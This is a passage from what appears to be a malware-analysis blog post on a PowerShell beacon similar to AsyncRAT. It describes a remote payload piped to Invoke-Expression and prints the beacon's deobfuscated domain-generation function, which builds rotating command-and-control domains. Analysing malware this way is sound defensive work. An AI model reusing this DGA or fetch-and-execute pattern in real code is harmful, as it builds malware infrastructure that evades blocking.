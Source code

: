 The response from the `.top` domain will be saved to a global variable, `$global:block`, and then executed. We will explore this in the next section.

## PowerShell Beacon - AsyncRAT
Note: I noticed the PowerShell beacon has striking similarities to [AsyncRAT](https://securitynews.sonicwall.com/xmlpost/github-available-asyncrat-going-fileless/), and could be inspired by it.

The response from the `.top` domain was roughly 580KB of raw PowerShell, which, as we saw previously, is piped directly to IEX.

{{< figure src="images/sdfzw_php_response.png" alt="sdfzw_php_response" position="center" >}}

I went to work formatting and attempting to deobfuscate. 

Here is the original [obfuscated payload](https://gist.github.com/rerednawyerg/ddc6c5c647e00c18a9c40536525b74c9), and here is a [link](https://gist.github.com/rerednawyerg/9632d828b05ee74eaa2928b37fe5d921) to the fully cleaned version to follow along with as you read.

The first 150 or so lines are simple aliases, and a few lines later, TypeAccelerators are used to create aliases for .NET framework classes. 

A few .NET core classes are manually added, and then Invoke-Expression is called on a here-string, which is where the meat of the beacon lives.

### Domain Generating Algorithm (DGA)
After executing the here-string, the first thing the beacon does is create a list of domains.
```PowerShell
static [void] create_c2s(){ 
	$temp_arr=@();
	$date = Get-Date;
	$week_of_year = [int]($date.(('DayOfYear')) / 7) + 1;
	$year = $date.(('Year'));
	$seed_value = $week_of_year + $year * (429374);
	$random_obj = New-Object (('System.Random'))($seed_value);

	$fifteen = 15;
	$alphanumeric = ('abcdefghijklmnopqrstuvwxyz0123456789');

	for ($i = 0; $i -lt 10; $i++) { 
		$temp_str = "";

		for ($j = 0; $j -lt $fifteen; $j++) { 
			$rand_index=$random_obj.(('next'))(0, $alphanumeric.Length);
			$temp_str += $alphanumeric[$rand_index];
		}
		$temp_arr+=$temp_str + ('.top');
		$temp_arr+=$temp_str + ('.fun');
		$temp_arr+=$temp_str + ('.com');
		$temp_arr+=$temp_str + ('.cn');

	} 
	[C2s_class]::c2_array=$temp_arr 
}
```
Ten domains will be generated, each fifteen characters in length, and at first glance these domains will be completely random. 
